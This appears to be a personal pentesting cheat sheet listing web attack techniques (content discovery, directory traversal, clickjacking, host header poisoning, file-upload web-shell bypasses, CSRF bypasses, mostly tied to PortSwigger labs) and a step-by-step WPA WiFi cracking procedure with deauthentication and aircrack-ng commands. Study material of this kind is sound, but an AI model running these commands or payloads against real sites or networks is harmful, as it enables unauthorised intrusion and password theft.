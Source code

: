 # CIA
	Integrity : data only change by auth.
	Avalability : Avalable data when user need.
	Confidentility : Data access by auth.
  
# Containt Discover
	dirb https://beta.alliedboston.com/ /usr/share/wordlists/dirb/big.txt
	gobuster -u http://fakebank.com -w wordlist.txt dir 
		
# directory Traversal
	dirb domain.com /usr/share/wordlists/wfuzz/vulns/dirTraversal-nix.txt
	
# ClickJacking
https://numberless-holddown.000webhostapp.com/clickjacking.php?url={url}
or
		
		<!DOCTYPE html>
		<html lang="en">
		<head>
		  <meta charset="UTF-8">
		</head>
		<body>
		  <iframe src="{url}" frameborder="0"></iframe>
		</body>
		</html>

# Host Header Poisoning
## Basic
	Change "Host" header 

## via middleware
	Add X-Forwarded-Host: <domain.com>
	https://portswigger.net/web-security/authentication/other-mechanisms/lab-password-reset-poisoning-via-middleware
	
## via dangling markup
	Try "Host: domain.com" to "Host: domain.com:attacker.com"
	https://portswigger.net/web-security/host-header/exploiting/password-reset-poisoning/lab-host-header-password-reset-poisoning-via-dangling-markup
	
# RCE
## Basic
	Upload Php File
	
## via Content-Type restriction bypass
	Change "Content-Type" header
	https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-content-type-restriction-bypass
	
## via path traversal
	Change file name "test.php" to "..%2ftest.php"
	https://www.youtube.com/watch?v=4R3PUhiFzS4
	
## via obfuscated file extension
	change file name filename="exploit.php%00.jpg"
	https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-obfuscated-file-extension
	
## via race condition
	https://www.youtube.com/watch?v=mt0BN5pYHXI
	https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-race-condition
	
# No Rate Limit
## via brute force
	send request to intruder
## via Race Condition
	Send request to turbo
	add "race.py" payload
	add "test: %s" header in header
# CSRF
## CSRF parameter is not available
	---> generate CSRF POC and try

## CSRF parameter available 

	-> Change action METHOD (GET OR POST)

	-> Remove CSRF parameter
	eg. email and CSRF
	remove CSRF
	now> email

	-> enter own CSRF taken and send to victim (CSRF token one time use so, create fresh token everytime after use. For testing use inco mode. for more read paragraph.)



	1)  Open Burp's browser and log in to your account. Submit the "Update email" form, and intercept the resulting request.
	    Make a note of the value of the CSRF token, then drop the request.
	2) Open a private/incognito browser window, log in to your other account, and send the update email request into Burp Repeater.
	3) Observe that if you swap the CSRF token with the value from the other account, then the request is accepted.
	4) Create and host a proof of concept exploit as described in the solution to the CSRF vulnerability with no defenses lab. Note that the CSRF tokens are single-use, so you'll need to include a fresh one.
	    Store the exploit, then click "Deliver to victim" to solve the lab.


	->if CSRF key cookies and CSRF token are available

	https://portswigger.net/web-security/csrf/lab-token-tied-to-non-session-cookie 

	->if header error occure
	1) so try remove header
	https://portswigger.net/web-security/csrf/lab-referer-validation-depends-on-header-being-present

	2) if header remove not work try changing domain like
	refrer: http://google.com
	to
	http://burpsuit/?google.com
	https://portswigger.net/web-security/csrf/lab-referer-validation-broken



# Wifi Password Hacking
	

	Step 1:

	Put your wireles lan card on monitor mode

	 airmon-ng start "wireless lan card name"
	=> airmon-ng start wlan0

	Step 2:

	Capture Traffic with Airodump-ng

	airodump-ng "wireless lan card monitor mode"

	=> airodump-ng wlan0mon


	Step 3:

	Focus airodump-ng on one AP on One Channel

	 airodump-ng --bssid dummy -c dummy --write WPAcrack wlan0mon

	=> airodump-ng --bssid 8C:FD:18:88:79:68 -c 9 --write WPAcrack wlan0mon


	Step 4:

	in order to capture the encrypted password we need to have the client authenticate against AP.
	we do deauth signal to client

	 aireplay-ng --deauth 1000 -a bssid wlan0mon

	=> aireplay-ng --deauth 1000 -a 8C:FD:18:88:79:68 wlan0mon


	Step 5:

	Now we have to crack the dump file with aircrack-ng

	 aircrack-ng WPAcrack-01.cap -w (localtion of wordlist)
